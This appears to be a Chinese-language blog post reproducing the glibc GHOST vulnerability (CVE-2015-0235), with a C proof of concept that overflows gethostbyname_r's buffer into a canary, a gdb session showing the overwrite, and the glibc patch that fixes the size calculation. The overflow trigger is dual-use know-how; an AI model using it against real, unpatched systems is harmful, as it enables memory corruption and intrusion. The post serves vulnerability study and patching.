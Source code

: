 ```yaml
---
layout: post
title: GHOST PoC Explained
excerpt: "CVE-2015-0235漏洞复现"
categories: [漏洞复现]
comments: true
---
```


验证代码：
```
#include <netdb.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <errno.h>

#define CANARY "in_the_coal_mine"
//$1 = {buffer = "buffer", '\0' <repeats 1017 times>, canary = "in_the_coal_mine"}
struct {
    char buffer[1024];
    char canary[sizeof(CANARY)];
} temp = { "buffer", CANARY };//这个是将temp赋值

int main(void) {
    struct hostent resbuf;
    struct hostent *result;
    int herrno;
    int retval;

    /*** strlen (name) = size_needed - sizeof (*host_addr) - sizeof (*h_addr_ptrs) - 1; ***/
    size_t len = sizeof(temp.buffer) - 16*sizeof(unsigned char) - 2*sizeof(char *) - 1;     //999 = 1024 -16*1 -2*4 -1   (char * 为指针，在32为中为4字节)
    char name[sizeof(temp.buffer)];//申请一个1024字节的char
    memset(name, '0', len);     // 向name前999字节复制'0'
    name[len] = '\0';           //第999字节为\0


    retval = gethostbyname_r(name, &resbuf, temp.buffer, sizeof(temp.buffer), &result, &herrno);//调用了这个有漏洞的方法,将name复制到buffer中

    if (strcmp(temp.canary, CANARY) != 0) {         //若canary中的值不等于in_the_coal_mine，则证明有漏洞
        puts("vulnerable");
        exit(EXIT_SUCCESS);
    }
    if (retval == ERANGE) {                         //若返回状态码为ERANGE(表示一个范围错误),则证明漏洞不存在
        puts("not vulnerable");
        exit(EXIT_SUCCESS);
    }
    puts("should not happen");
    exit(EXIT_FAILURE);
}
```
很明显是存在漏洞的。简单解释一下 PoC，在栈上布置一个区域 temp，由 buffer 和 canary 组成，然后初始化一个 name，最后执行函数 gethostbyname_r()，正常情况下，当把 name+*host_addr+*h_addr_ptrs+1 复制到 buffer 时，会正好覆盖缓冲区且没有溢出。然而，实际情况并不是这样。

验证：
```bash
gcc vunl.c
[root@localhost morty]# ./a.out 
vulnerable
```
在漏洞代码中，首先我们定义了CANARY, “in_the_coal_mine”，这是我们需要覆盖的目标，之后我们定义了结构体，它包含了两个chunks，这两个chunk将会被glibc的gethostbyname_r方法覆盖掉，替换成CANARY的值，第一个chunk叫buffer它的大小是1024字节，它将被gethostbyname_r方法的“buflen”参数溢出掉，紧跟着buffer chunk的是canary chunk，从buffer溢出的字节被放到了canary chunk中， Now that we have defined our struct representing the buffer for gethostname_r, the name char array is being initialized with 999 bytes of ASCII ‘0’ / HEX 0x30.

函数 gethostbyname_r() 在 include/netdb.h 中定义如下：
```
struct hostent {
    char  *h_name;            /* official name of host */
    char **h_aliases;         /* alias list */
    int    h_addrtype;        /* host address type */
    int    h_length;          /* length of address */
    char **h_addr_list;       /* list of addresses */
}
#define h_addr h_addr_list[0] /* for backward compatibility */

int gethostbyname_r(const char *name,
        struct hostent *ret, char *buf, size_t buflen,
        struct hostent **result, int *h_errnop);
```

- name：The name of the Internet host whose entry you want to find.
- ret：A pointer to a struct hostent where the function can store the host entry.
- buf：A pointer to a buffer that the function can use during the operation to store host database entries; buffer should be large enough to hold all of the data associated with the host entry. A 2K buffer is usually more than enough; a 256-byte buffer is safe in most cases.
- buflen：The length of the area pointed to by buffer.
- result：A pointer to a struct hostent where the function can store the host entry.
- h_errnop：A pointer to a location where the function can store an herrno value if an error occurs.

...

...

...

gdb开始调试

```shell
gdb -q a.out 
(gdb) b main
Breakpoint 1 at 0x80484b8: file vunl.c, line 21.
(gdb) set disassembly-flavor intel
(gdb) r
Starting program: /home/morty/a.out 

Breakpoint 1, main () at vunl.c:21
21	    size_t len = sizeof(temp.buffer) - 16*sizeof(unsigned char) - 2*sizeof(char *) - 1;
Missing separate debuginfos, use: debuginfo-install glibc.i686
(gdb) disass main
Dump of assembler code for function main:
0x080484a4 <main+0>:	lea    ecx,[esp+0x4]
0x080484a8 <main+4>:	and    esp,0xfffffff0
0x080484ab <main+7>:	push   DWORD PTR [ecx-0x4]
0x080484ae <main+10>:	push   ebp
0x080484af <main+11>:	mov    ebp,esp
0x080484b1 <main+13>:	push   ecx
0x080484b2 <main+14>:	sub    esp,0x454
0x080484b8 <main+20>:	mov    DWORD PTR [ebp-0x8],0x3e7
0x080484bf <main+27>:	mov    eax,DWORD PTR [ebp-0x8]
0x080484c2 <main+30>:	mov    DWORD PTR [esp+0x8],eax
0x080484c6 <main+34>:	mov    DWORD PTR [esp+0x4],0x30
0x080484ce <main+42>:	lea    eax,[ebp-0x428]
0x080484d4 <main+48>:	mov    DWORD PTR [esp],eax
0x080484d7 <main+51>:	call   0x8048388 <memset@plt>
0x080484dc <main+56>:	mov    eax,DWORD PTR [ebp-0x8]
0x080484df <main+59>:	mov    BYTE PTR [ebp+eax*1-0x428],0x0
0x080484e7 <main+67>:	lea    eax,[ebp-0x28]
0x080484ea <main+70>:	mov    DWORD PTR [esp+0x14],eax
0x080484ee <main+74>:	lea    eax,[ebp-0x24]
0x080484f1 <main+77>:	mov    DWORD PTR [esp+0x10],eax
0x080484f5 <main+81>:	mov    DWORD PTR [esp+0xc],0x400
0x080484fd <main+89>:	mov    DWORD PTR [esp+0x8],0x8049840
0x08048505 <main+97>:	lea    eax,[ebp-0x20]
0x08048508 <main+100>:	mov    DWORD PTR [esp+0x4],eax
0x0804850c <main+104>:	lea    eax,[ebp-0x428]
0x08048512 <main+110>:	mov    DWORD PTR [esp],eax
0x08048515 <main+113>:	call   0x80483a8 <gethostbyname_r@plt>
0x0804851a <main+118>:	mov    DWORD PTR [ebp-0xc],eax
0x0804851d <main+121>:	mov    DWORD PTR [esp+0x4],0x8048654
0x08048525 <main+129>:	mov    DWORD PTR [esp],0x8049c40
0x0804852c <main+136>:	call   0x80483c8 <strcmp@plt>
0x08048531 <main+141>:	test   eax,eax
0x08048533 <main+143>:	je     0x804854d <main+169>
0x08048535 <main+145>:	mov    DWORD PTR [esp],0x8048665
---Type <return> to continue, or q <return> to quit---

(gdb) b *main+113
Breakpoint 2 at 0x8048515: file vunl.c, line 26.
(gdb) c
Continuing.

Breakpoint 2, 0x08048515 in main () at vunl.c:26
26	    retval = gethostbyname_r(name, &resbuf, temp.buffer, sizeof(temp.buffer), &result, &herrno);
```

查看temp

```
(gdb) print temp
$1 = {buffer = "buffer", '\0' <repeats 1017 times>, canary = "in_the_coal_mine"}
(gdb) p &temp
$2 = (struct {...} *) 0x8049840

(gdb) x/1024s 0x8049840
0x8049840 <temp>:	 "buffer"
0x8049847 <temp+7>:	 ""
0x8049848 <temp+8>:	 ""
0x8049849 <temp+9>:	 ""
0x804984a <temp+10>:	 ""
0x804984b <temp+11>:	 ""
...
...
...
0x8049c3d <temp+1021>:	 ""
0x8049c3e <temp+1022>:	 ""
0x8049c3f <temp+1023>:	 ""
0x8049c40 <temp+1024>:	 "in_the_coal_mine"
0x8049c51:	 ""
0x8049c52:	 ""
0x8049c53:	 ""
0x8049c54 <completed.5699>:	 ""
0x8049c55:	 ""
```

我们的程序中temp有两个buffer:“buffer”和“canary”，buffer的内容包括buffer的名字“buffer”6 bytes+ 1017 bytes 的 ‘0’  + null terminating byte = 1024 bytes，CANARY的位置在0x8049c40，并且在temp结构体中，初始值为 “in_the_coal_mine”

现在我们再运行一行指令，使gethostbyname_r方法被调用，然后再查看temp struct

```
(gdb) ni
(gdb) x/3s 0x8049c40
0x8049c40 <temp+1024>:	 "000"
0x8049c44 <temp+1028>:	 "he_coal_mine"
0x8049c51:	 ""
```

我们看到CANARY的值被覆盖掉了

#### 打补丁
漏洞代码的位置在`nss/digits_dots.c`补丁的内容是给size_needed增加了4字节的空间

```
vi nss/digits_dots.c

From this:
  105:  size_needed = (sizeof (*host_addr)
		+ sizeof (*h_addr_ptrs) + strlen (name) + 1);

  277:  size_needed = (sizeof (*host_addr)
		+ sizeof (*h_addr_ptrs) + strlen (name) + 1);

To this:
  105:  size_needed = (sizeof (*host_addr)
		+ sizeof (*h_addr_ptrs) + strlen (name)
		+ sizeof (*h_alias_ptr) + 1);

  277:  size_needed = (sizeof (*host_addr)
		+ sizeof (*h_addr_ptrs) + strlen (name)
		+ sizeof (*h_alias_ptr) + 1);
```

This adds the 4 missed bytes that cause the overflow from the first chunk to the next chunk. Now if we add this to the calculation of the “size_t len” from the above PoC code, instead of 999 bytes the name char array buffer will be 995 and the overflow will not work.